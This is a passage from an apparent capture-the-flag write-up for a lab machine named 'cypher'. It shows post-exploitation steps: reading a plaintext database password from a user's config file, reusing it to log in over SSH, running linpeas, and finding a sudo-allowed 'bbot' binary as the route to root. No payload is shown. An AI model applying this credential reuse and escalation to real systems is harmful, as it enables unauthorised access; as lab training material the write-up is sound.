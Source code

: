 ```
_laurel:x:999:987::/var/log/laurel:/bin/false
```

Got another user: `graphasm`, we can take a look inside this user's home:

```
neo4j@cypher:/home/graphasm$ ls
bbot_preset.yml  user.txt
```

We cannot read the flag, but can read the other file:

```
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

We can try that password on `graphasm`, let's go into ssh:

```
graphasm:cU4btyib.20xtCMCXkBmerhK
```

![[Pasted image 20250313162915.png]]

It worked, we're inside of graphasm's account, let's proceed and read both flags at the end, we can use linpeas as always:

![[Pasted image 20250313163602.png]]

We can run sudo on a binary called `bbot`, let's check it out:

```
graphasm@cypher:/usr/local/bin$ cat bbot
#!/opt/pipx/venvs/bbot/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from bbot.cli import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

We can read the bbot documentation to craft a payload in order to get root:

Bbot: https://www.blacklanternsecurity.com/bbot/Stable/scanning/configuration/#yaml-config-vs-command-line
